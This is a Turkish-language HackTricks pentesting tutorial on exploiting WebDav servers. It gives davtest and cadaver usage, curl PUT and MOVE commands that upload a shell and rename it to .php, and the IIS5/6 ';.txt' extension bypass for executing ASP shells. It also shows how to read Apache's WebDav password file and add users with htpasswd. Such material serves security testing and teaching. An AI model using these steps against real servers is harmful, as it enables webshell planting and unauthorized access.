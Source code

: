 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Dünyanın **en gelişmiş** topluluk araçlarıyla desteklenen **iş akışlarını** kolayca oluşturmak ve **otomatikleştirmek** için [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) kullanın.\
Bugün Erişim Alın:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**WebDav** etkin bir **HTTP Sunucusu** ile çalışırken, doğru **kimlik bilgilerine** sahip olduğunuzda dosyaları **manipüle etmek** mümkündür; bu genellikle **HTTP Basic Authentication** ile doğrulanır. Böyle bir sunucu üzerinde kontrol elde etmek genellikle **bir webshell'in yüklenmesi ve çalıştırılmasını** içerir.

WebDav sunucusuna erişim genellikle **geçerli kimlik bilgileri** gerektirir; [**WebDav bruteforce**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) bunları edinmenin yaygın bir yöntemidir.

Dosya yükleme kısıtlamalarını aşmak için, özellikle sunucu tarafı betiklerinin çalıştırılmasını engelleyen kısıtlamalar varsa, şunları yapabilirsiniz:

* Kısıtlama yoksa **çalıştırılabilir uzantılara** sahip dosyaları doğrudan **yükleyin**.
* Yüklenen çalıştırılamayan dosyaların (örneğin .txt) adını çalıştırılabilir bir uzantıya **değiştirin**.
* Yüklenen çalıştırılamayan dosyaları **kopyalayın**, uzantılarını çalıştırılabilir bir uzantıya değiştirin.

## DavTest

**Davtest**, **farklı uzantılara sahip birkaç dosya yüklemeye** çalışır ve uzantının **çalıştırılıp çalıştırılmadığını** **kontrol eder**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Bu, **.txt** ve **.html uzantılarının çalıştırıldığı** anlamına gelmez. Bu, **bu dosyalara** web üzerinden **erişebileceğiniz** anlamına gelir.

## Cadaver

Bu aracı, **WebDav** sunucusuna **bağlanmak** ve işlemleri (örneğin **yükleme**, **taşıma** veya **silme**) **manuel olarak** gerçekleştirmek için kullanabilirsiniz.
```
cadaver <IP>
```
## PUT isteği
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE isteği
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) kullanarak dünyanın **en gelişmiş** topluluk araçlarıyla desteklenen **iş akışlarını** kolayca oluşturun ve **otomatikleştirin**.\
Bugün Erişim Alın:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav Açığı

Bu açık çok ilginçtir. **WebDav**, **.asp** uzantılı dosyaların **yüklenmesine** veya **yeniden adlandırılmasına** **izin vermez**. Ancak, ismin sonuna **";.txt"** ekleyerek bu durumu **aşabilirsiniz** ve dosya bir .asp dosyasıymış gibi **çalıştırılacaktır** (aynı zamanda **".txt" yerine ".html"** de kullanabilirsiniz ama **";"yı unutmayın**).

Sonra, shell'inizi bir ".**txt" dosyası** olarak **yükleyebilir** ve onu bir ".asp;.txt" dosyasına **kopyalayabilir/hareket ettirebilirsiniz**. Web sunucusu üzerinden o dosyaya eriştiğinizde, **çalıştırılacaktır** (cadaver, taşıma işleminin çalışmadığını söyleyecektir ama çalıştı).

![](<../../.gitbook/assets/image (1092).png>)

## Post kimlik bilgileri

Eğer Webdav bir Apache sunucusu kullanıyorsa, Apache'de yapılandırılmış sitelere bakmalısınız. Genellikle:\
&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

İçinde şunları bulabilirsiniz:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Gördüğünüz gibi, **webdav** sunucusu için geçerli **credentials** içeren dosyalar var:
```
/etc/apache2/users.password
```
Bu tür dosyaların içinde **kullanıcı adı** ve şifrenin bir **hash**'ini bulacaksınız. Bunlar, webdav sunucusunun kullanıcıları kimlik doğrulamak için kullandığı kimlik bilgileri.

Onları **kırmayı** deneyebilir veya bir nedenle **webdav** sunucusuna **erişmek** istiyorsanız **daha fazla** ekleyebilirsiniz:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Yeni kimlik bilgilerini kontrol etmek için şunu yapabilirsiniz:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Referanslar

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) kullanarak dünyanın **en gelişmiş** topluluk araçlarıyla desteklenen **iş akışlarını** kolayca oluşturun ve **otomatikleştirin**.\
Bugün Erişim Alın:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

